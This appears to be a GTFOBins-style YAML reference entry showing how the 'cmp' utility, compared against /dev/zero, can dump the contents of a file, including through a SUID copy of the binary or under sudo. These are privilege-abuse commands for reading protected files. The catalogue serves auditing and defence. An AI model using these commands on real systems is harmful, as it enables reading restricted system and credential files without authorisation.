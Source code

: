 description: Dump the bytes of the input file that are different from the NUL byte in a tabular format, hence this may not be suitable to read arbitrary binary files.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cmp $LFILE /dev/zero -b -l
  suid:
    - code: |
        LFILE=file_to_read
        ./cmp $LFILE /dev/zero -b -l
  sudo:
    - code: |
        LFILE=file_to_read
        sudo cmp $LFILE /dev/zero -b -l
---
